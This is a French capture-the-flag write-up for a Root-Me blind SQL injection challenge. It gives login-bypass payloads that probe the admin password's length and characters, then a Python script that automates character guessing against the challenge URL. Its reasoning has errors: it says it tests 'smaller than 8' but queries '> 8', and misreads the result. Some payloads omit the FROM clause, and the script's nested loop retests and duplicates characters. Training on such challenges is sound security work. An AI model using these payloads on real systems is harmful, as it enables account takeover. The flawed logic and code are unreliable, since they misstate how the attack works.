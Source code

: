 ```sql
' OR (SELECT length(password) FROM users WHERE username = "admin") > 5 --  
```

Ce qui me retourne une connexion en admin.
Donc le password est plus grand que 5 caractères

Essayons avec plus petit que 8

```sql
' OR (SELECT length(password) FROM users WHERE username = "admin") > 8 --  
```

Ce qui me retourne "no such password" donc il n'est pas plus petit que 8.

Essayons égal à 8

```sql
' OR (SELECT length(password) FROM users WHERE username = "admin") = 8 --  
```

Ce qui me retourne une connexion sur le compte admin, donc le mot de passe fait 8 caractères.

## Retrouver les caractères dans le password
Maintenant qu'on sait déjà le nombre de caractère contenu dans notre password, on va réduire nos recherches avec un LIKE qui va nous permettre de savoir si le caractère est dans le password que l'on cherche ou pas.

Essayons déjà quelques voyelles à la main pour tester notre requête

```sql
' OR (SELECT password where username = "admin" ) LIKE "%a%" -- 
```

Nous retourne TRUE

```sql
' OR (SELECT password where username = "admin" ) LIKE "%z%" --
```

Nous retourne FALSE

Maintenant que nous sommes sûr que la requête fais bien ce que l'on veut, on va pouvoir automatiser tout ça avec python afin de venir tester tous les caractère et les chiffres un par un.

```python
import requests, string, re

url = "http://challenge01.root-me.org/web-serveur/ch10/"

def main():
	 password_caractere = trouverCaractere(url)
	 print(password_caractere)
  
def trouverCaractere(url):
	 chiffres = ""
	 caractere_dans_passwd = ""
	 for i in range(10):
		 chiffres += str(i)	
		 caractere_list = str(string.ascii_lowercase) + str(chiffres)	
		 for i in caractere_list:
			 requete = f"' OR (SELECT password where username = 'admin' ) LIKE '%{i}%' --"		
			 r = requests.post(url, data={'username': requete, 'password': "a"})	
			 html_reponse = r.text	
			 matches = re.search(r"Welcome", html_reponse)	
			 try:	
				 if matches.group(0) == "Welcome":	
					 caractere_dans_passwd = str(caractere_dans_passwd) + str(i)	
			 except:	
				 pass
	 return caractere_dans_passwd
```